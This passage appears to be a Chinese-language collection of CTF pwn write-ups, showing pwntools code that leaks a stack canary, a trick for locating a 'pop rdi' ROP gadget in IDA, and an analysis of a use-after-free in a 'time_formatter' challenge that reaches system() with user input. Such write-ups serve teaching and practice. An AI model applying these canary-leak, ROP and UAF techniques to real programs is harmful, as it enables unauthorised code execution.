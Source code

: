 ```python
18.#print c
19.#补齐8字节
20.for j in range(0,i):
21. c='\x00'+c
22.
23.#取前8字节数据，这才是canary
24.c=c[0:8]
```
得到了canary，我们就可以进行栈溢出ROP操作了


**此writeup有困扰我很久的问题的题解：（查找pop rdi地址问题）**：

为了将数据放入 rdi 寄存器，我们需要找到一条 pop rdi 的指令，我们不能把指令写在栈里，因为开启了栈不可执行保护。我们发现了，在 IDA 中搜索 pop，我们发现了这里可以被我们利用
我们选择 pop r15，选择 undefine

然后选择下面的两字节数据，选择 Code

就出现了 pop rdi 指令,这是一种巧妙的方法，类似的，我们可以对 r14,r13 操作，获
得其他相关指令，它的地址为 0x400A93，并且过后还有一个 retn，我们完全可以把这里看
成是一个函数的开始

这个writeup应为最符合做法的一个


writeup3：
```python
#GET CANARY
payload = 'a' * 0x88
signal = '95279527'
payload = payload[:-len(signal)] + signal

conn.sendlineafter('>> ', '1')
conn.sendline(payload)

conn.sendlineafter('>> ', '2')
conn.recvuntil(signal + '\n')

'''
    if we use sendline
    then there's an extra '\n' byte
'''

canary = u64(conn.recv(7).rjust(8, '\x00'))

log.info('Canary Found: %s' % hex(canary))
```


## time_formatter

**UAF漏洞**，按下5，进行free之后没有把指针设置为NULL，那么新建堆的地址就是前一个堆的地址，指针仍指向原来的堆地址，通过UAF，使得set_time_zone分配得到的是set_format释放的内存。

```c
//按下1，
fgets(s,1024,stdin)
v0=strdup(s)//malloc+strcpy
qword_602118=v0
//按下3，
fgets(s,1024,stdin)
value=strdup(s)
//按下4，
__snprintf_chk(&command,2048LL,1LL,2048LL,"/bin/data -d @%d + '%s'",(unsigned int)dword_602120,qword_602118,a3);
system(&command)
//按下5，
free(qword_602118)->format
```